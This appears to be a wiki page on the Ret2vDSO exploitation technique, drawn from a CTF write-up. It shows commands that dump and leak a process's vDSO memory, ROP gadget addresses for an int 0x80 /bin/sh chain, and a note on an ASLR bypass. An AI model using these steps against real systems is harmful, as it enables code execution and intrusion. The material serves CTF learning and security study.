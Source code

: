 # Ret2vDSO


## Basic Information

There might be **gadgets in the vDSO region**, which is used to change from user mode to kernel mode. In these type of challenges, usually a kernel image is provided to dump the vDSO region.

Following the example from [[https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/maze-of-mist/|https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/maze-of-mist/]] it's possible to see how it was possible to dump the vdso section and move it to the host with:

```bash
# Find addresses
cat /proc/76/maps
08048000-08049000 r--p 00000000 00:02 317                                /target
08049000-0804a000 r-xp 00001000 00:02 317                                /target
0804a000-0804b000 rw-p 00002000 00:02 317                                /target
f7ff8000-f7ffc000 r--p 00000000 00:00 0                                  [vvar]
f7ffc000-f7ffe000 r-xp 00000000 00:00 0                                  [vdso]
fffdd000-ffffe000 rw-p 00000000 00:00 0                                  [stack]

# Dump it
dd if=/proc/76/mem of=vdso bs=1 skip=$((0xf7ffc000)) count=$((0x2000))
8192+0 records in
8192+0 records out
8192 bytes (8.0KB) copied, 0.901154 seconds, 8.9KB/s

# Compress and leak it
gzip vdso
base64 vdso.gz

# Decompress and check of gadgets
echo '<base64-payload>' | base64 -d | gzip -d - > vdso
file vdso
ROPgadget --binary vdso | grep 'int 0x80'
```
```
ROP gadgets found:

```python
vdso_addr = 0xf7ffc000

int_0x80_xor_eax_eax_ret_addr = 0x8049010
bin_sh_addr = 0x804a800

# 0x0000057a : pop edx ; pop ecx ; ret
pop_edx_pop_ecx_ret_addr = vdso_addr + 0x57a

# 0x00000cca : mov dword ptr [edx], ecx ; add esp, 0x34 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
mov_dword_ptr_edx_ecx_ret_addr = vdso_addr + 0xcca

# 0x00000ccb : or al, byte ptr [ebx + 0x5e5b34c4] ; pop edi ; pop ebp ; ret
or_al_byte_ptr_ebx_pop_edi_pop_ebp_ret_addr = vdso_addr + 0xccb

# 0x0000015cd : pop ebx ; pop esi ; pop ebp ; ret
pop_ebx_pop_esi_pop_ebp_ret = vdso_addr + 0x15cd
```
```
> [!CAUTION]
> Note therefore how it might be possible to **bypass ASLR abusing the vdso** if the kernel is compiled with CONFIG_COMPAT_VDSO as the vdso address won't be randomized: [[https://vigilance.fr/vulnerability/Linux-kernel-bypassing-ASLR-via-VDSO-11639|https://vigilance.fr/vulnerability/Linux-kernel-bypassing-ASLR-via-VDSO-11639]]

### ARM64

After dumping and checking the vdso section of a binary in kali 2023.2 arm64, I couldn't find in there any interesting gadget (no way to control registers from values in the stack or to control x30 for a ret) **except a way to call a SROP**. Check more info int eh example from the page:

[[srop-sigreturn-oriented-programming/srop-arm64.md]]



